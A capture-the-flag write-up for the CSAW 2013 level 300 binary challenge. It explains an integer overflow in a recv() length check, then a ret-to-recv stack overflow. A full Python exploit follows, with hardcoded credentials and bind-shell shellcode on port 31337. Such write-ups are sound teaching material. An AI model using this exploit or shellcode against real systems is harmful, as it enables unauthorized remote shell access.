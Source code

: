 #Details

The level 300 exploitation challenge involved an integer overflow. I figured out the username and password that were hardcoded in the binary. The program then asks for an integer input and uses that as the number of bytes to read parameter in recv(). The only input validation that is performed on this parameter is to check if it is less than 1024. Entering -1 here lets us enter as much data we need since it gets interpreted as a positive integer. The next thing to notice is that the stack is executable.

The plan of action

Find the address of recv function in PLT using objdump -d fil_chal | grep recv
Find a writable location in the data or bss section of the binary using readelf -S fil_chal
Exploit the integer overflow vulnerability and overflow the stack by sending sufficient padding.
Overflow EIP with the address of the recv function. Setup the stack in such a way that recv(4, addr_in_bss, len(shellcode), 0) is called and after recv returns, execution continues at addr_in_bss. I figured the socket descriptor is 4 using strace and checking the recv call made by the binary.
Once the shellcode is read into memory at the address specified, execution jumps to the shellcode and we have a shell listening at port 31337.

#Exploit

```
import telnetlib
import struct
import time

def pack(addr):
  return struct.pack('<I', addr)

tn = telnetlib.Telnet('127.0.0.1', 34266)

tn.read_until('UserName: ')
tn.write('csaw2013')

tn.read_until('Password: ')
tn.write('S1mplePWD')

tn.read_until('Entry Info: ')
tn.write("-1")


##Shellcode to bind /bin/sh on port 31337
##http://www.shell-storm.org/shellcode/files/shellcode-847.php
shellcode = ("\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x66\xb3\x01\x51"
          "\x6a\x06\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc6\xb0"
          "\x66\xb3\x02\x52\x66\x68\x7a\x69\x66\x53\x89\xe1\x6a"
          "\x10\x51\x56\x89\xe1\xcd\x80\xb0\x66\xb3\x04\x6a\x01"
          "\x56\x89\xe1\xcd\x80\xb0\x66\xb3\x05\x52\x52\x56\x89"
          "\xe1\xcd\x80\x89\xc3\x31\xc9\xb1\x03\xfe\xc9\xb0\x3f"
          "\xcd\x80\x75\xf8\x31\xc0\x52\x68\x6e\x2f\x73\x68\x68"
          "\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x52\x89\xe2"
          "\xb0\x0b\xcd\x80")

padding = "A" * 1056
recv = 0x08048890
bss = 0x0804b008 + len(shellcode) + 32


##recv(socket_descriptor, addr_in_bss, num_bytes_to_read, flags)
##return address after recv = addr_in_bss
tn.write( padding + pack(recv) +
                  pack(bss) +
                  pack(4) +
                  pack(bss) +
                  pack(len(shellcode)) +
                  pack(0) + "\n")
time.sleep(2)
tn.write(shellcode)

tn.close()
```